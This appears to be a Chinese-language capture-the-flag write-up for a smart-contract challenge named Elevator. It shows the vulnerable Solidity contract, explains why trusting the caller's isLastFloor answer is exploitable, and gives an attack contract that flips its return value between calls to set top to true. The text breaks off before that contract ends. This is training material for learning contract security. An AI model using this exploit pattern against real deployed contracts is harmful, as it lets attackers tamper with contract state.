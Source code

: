 - 题目要求：电梯达到顶部
- 合约源码：
    
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    interface Building {
      function isLastFloor(uint) external returns (bool);
    }
    
    contract Elevator {
      bool public top;
      uint public floor;
    
      function goTo(uint _floor) public {
        Building building = Building(msg.sender);
    
        if (! building.isLastFloor(_floor)) {
          floor = _floor;
          top = building.isLastFloor(floor);
        }
      }
    }
    ```
    
- 解体步骤：
    - 观察该合约我们可知，要想达到顶层即使top变量变为true，而top的变化只会在goTo函数里发生变化，当isLastFloor为false时top变量才会更改，而且两次调用isLastFloor的参数一样，所以我们需要在第一次调用isLastFloor的时候返回false，第二次调用的时候返回true
    - 由于在目标合约的goTo函数中，构建Building接口的参数时msg.sender，所以我们需要提供一个满足Building接口的isLastFloor的查询函数。在我们的攻击合约中，每次调用isLastFloor函数top的值都会翻转一次从而使goTo函数里面的条件成立
    - 首先我们部署攻击合约并传入目标合约的地址，然后输入`await contract.top()`可以得知顶层top的值为false，然后调用attack函数，再输入`await contract.top()` 就可以得知顶层为true。提交实例该关卡完成
- 攻击合约：
    
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    contract Attack {
        Elevator elevator;
    
        bool top = true;
    
        constructor(address _addr) public {
            elevator = Elevator(_addr);
        }
    
        function isLastFloor(uint) public returns (bool) {
            top = !top;  
            return top;
        }
    
        function attack() public {
            elevator.goTo(1);
        }
    